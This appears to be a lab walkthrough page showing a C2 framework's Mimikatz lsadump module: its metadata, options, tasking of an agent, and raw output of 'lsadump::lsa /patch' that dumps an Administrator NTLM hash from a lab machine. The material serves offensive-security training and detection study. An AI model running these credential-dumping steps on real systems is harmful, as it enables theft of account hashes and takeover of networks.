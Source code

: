 `info`:
```
Author       @JosephBialek                                                       
              @gentilkiwi                                                         
 Background   True                                                                
 Comments     http://clymb3r.wordpress.com/                                       
              http://blog.gentilkiwi.com                                          
              https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump#lsa    
 Description  Runs PowerSploit's Invoke-Mimikatz function to extract a particular 
              user hash from memory. Useful on domain controllers. ←               
 Language     powershell                                                          
 Name         powershell/credentials/mimikatz/lsadump                             
 NeedsAdmin   True                                                                
 OpsecSafe    True                                                                
 Software     http://attack.mitre.org/software/S0002                              
 Techniques   http://attack.mitre.org/techniques/T1098                            
              http://attack.mitre.org/techniques/T1003                            
              http://attack.mitre.org/techniques/T1081                            
              http://attack.mitre.org/techniques/T1207                            
              http://attack.mitre.org/techniques/T1075                            
              http://attack.mitre.org/techniques/T1097                            
              http://attack.mitre.org/techniques/T1145                            
              http://attack.mitre.org/techniques/T1101                            
              http://attack.mitre.org/techniques/T1178                
```

`options`:

| Name     | Value   | Required | Description                       |
|----------|---------|----------|-----------------------------------|
| Agent    | DemoINE | True     | Agent to run module on.           |
| Username |         | False    | Username to extract the hash for, |
|          |         |          | blank for all local passwords.    |

`execute`:
```
[*] Tasked DemoINE to run Task 2
```

_Displaying the extracted NTLM hashes from the target system._

`history`:
```
[*] Task 2 results received
Hostname: attackdefense / authority\system-authority\system

  .#####.   mimikatz 2.2.0 (x64) #19041 Nov 20 2021 08:28:06
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # lsadump::lsa /patch
Domain : ATTACKDEFENSE / S-1-5-21-2202681729-75510020-2229350343

RID  : 000001f4 (500)
User : Administrator ←
LM   : 
NTLM : 5c4d59391f656d5958dab124ffeabc20 ←

RID  : 000001f5 (501)
User : Guest
LM   : 
NTLM : 
```